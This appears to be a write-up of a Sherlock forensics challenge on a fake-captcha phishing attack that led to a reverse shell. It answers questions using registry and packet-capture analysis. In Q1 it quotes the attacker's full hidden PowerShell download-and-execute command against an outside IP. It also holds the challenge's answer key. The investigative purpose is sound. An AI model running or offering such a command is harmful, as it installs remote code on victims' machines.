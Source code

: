 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.

___

### Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

#### A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.
Under RunMRU we find it.

![](../../Img/Pasted%20image%2020250513153145.png)

___

### Q2: At what time in UTC did the malicious payload execute?

#### A: 2024-09-23 05:07:45

In the Q1 screenshot.

___

### Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

#### A: 579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de

To get the hash i need the file, to get the file we use wireshark to open the pcapng file and search.
One of the only 2 things that i have is the ip, so we use as filter.
Looking through the packets we spot the 2nd thing that we know, the file name.

![](../../Img/Pasted%20image%2020250513153952.png)

After checking that the download name it's the same as the execution name, we search for it in Export HTTP.

![](../../Img/Pasted%20image%2020250513154311.png)

Get the hash.

![](../../Img/Pasted%20image%2020250513154506.png)

___

### Q4: To which port did the reverse shell connect?

#### A: 6969

We see what the file has.

![](../../Img/Pasted%20image%2020250513155127.png)

Decode it. (I use magic) (https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Decode_text('UTF-16LE%20(1200)'))

![](../../Img/Pasted%20image%2020250513155219.png)

___

### Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

#### A: 403

With the port, we add it to the filter in wireshark and calculate.

![](../../Img/Pasted%20image%2020250513155836.png)

![](../../Img/Pasted%20image%2020250513160049.png)

___

### Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

#### A: stageClipboard

I remember that in Q3 i saw clear http traffic, so i went to see it.

![](../../Img/Pasted%20image%2020250513160502.png)

It seems to be the web page.

![](../../Img/Pasted%20image%2020250513160526.png)

Reading through it i found it. (If the pcapng was massive, the http filter would have helped)

![](../../Img/Pasted%20image%2020250513160553.png)

Tags: [Network Traffic Analysis](../../Index/Network%20Traffic%20Analysis.md) [NTUSER Analysis](../../Index/NTUSER%20Analysis.md) [Registry Explorer](../../Index/Registry%20Explorer.md) [Wireshark](../../Index/Wireshark.md) 
